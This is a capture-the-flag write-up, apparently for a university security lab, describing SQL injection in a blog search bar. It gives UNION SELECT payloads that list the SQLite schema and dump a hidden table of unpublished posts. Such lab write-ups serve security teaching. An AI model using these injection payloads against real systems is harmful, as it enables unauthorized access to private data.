 # Challenge `Wow, it can't be more juicy than this!` writeup

- Vulnerability: What type of vulnerability is being exploited
  - Vulnerable to SQL injection

- Where: Where is the vulnerability present
  - `http://mustard.stt.rnl.tecnico.ulisboa.pt:23261`, on the search bar

- Impact: What results of exploiting this vulnerability
  - Allows the user to access unpublished articles

## Steps to reproduce

1. Navigate to `http://mustard.stt.rnl.tecnico.ulisboa.pt:23261`
2. The search bar executes the following query and is vulnerable to SQLi (discovered by inputting `'` with a random string following):

```sql
SELECT id, title, content FROM blog_post WHERE title LIKE '%<input>%' OR content LIKE '%input%' 
```

3. It is possible to view other tables on the database with the following input:

```sql
' UNION SELECT sql, name, tbl_name FROM sqlite_master; --
```

4. A table called `secret_blog_post` exists and we can view its content with:

```sql
' UNION SELECT * FROM secret_blog_post; --
```
